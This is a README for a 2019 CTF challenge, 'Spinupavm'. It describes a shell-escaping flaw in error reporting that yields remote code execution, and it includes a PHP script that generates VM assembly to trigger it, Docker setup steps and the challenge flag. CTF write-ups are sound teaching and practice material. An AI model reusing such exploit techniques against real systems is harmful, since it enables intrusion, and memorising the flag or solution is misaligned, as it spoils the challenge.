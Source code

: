 # Spinupavm

Spinupavm is an information security challenge in the Miscellaneous category, and was presented to participants of [KAF CTF 2019](https://ctf.kipodafterfree.com)

## Challenge story

No story

## Challenge exploit

Error reporting shell escaping exploit allows RCE through specifically crafted BinIntegers.

## Challenge solution

This code crafts special VM assembly code to create the BigInteger.
```php
<?php

$number = "13321722296716672858903025114813083973748";

// $number = "10";

$number = strrev($number);

$script = "psh sb\nmov rc ra\npsh sa\n";

for ($i = 0; $i<strlen($number); $i++){
	$num = intval($number[$i]);
	// get mult of 10
	$script.="pop sb\npsh sb\n";
	// multiply
	$script.="mov ra rc\n";
	for ($h=0; $h < $num-1; $h++) {
		$script.="mov rb rc\nadd\n";
	}
	// move, pop, add
	if ($num>0)
		$script.="mov ra rc\npop sa\nmov rb rc\nadd\npsh sa\n";

	$script.="pop sb\nmov ra rc\n";
	for ($h=0; $h < 9; $h++) {
		$script.="mov rb rc\nadd\n";
	}
	$script.="psh sb\n";
}
$script.="pop sa\n";
for ($a = 0; $a <= 20; $a++)
	$script.="psh sa\n";
$script.="prt rc\n";
echo $script;
?>
```

## Building and installing

[Clone](https://github.com/NadavTasher/2019-Spinupavm/archive/master.zip) the repository, then type the following command to build the container:
```bash
docker build . -t spinupavm
```

To run the challenge, execute the following command:
```bash
docker run --rm -d -p 1130:80 spinupavm
```

## Usage

You may now access the challenge interface through: `nc localhost 1130`

## Flag

Flag is:
```flagscript
KAF{w3ll_p1ay3d_my_hack3r_fr13nd}
```

## License
[MIT License](https://choosealicense.com/licenses/mit/)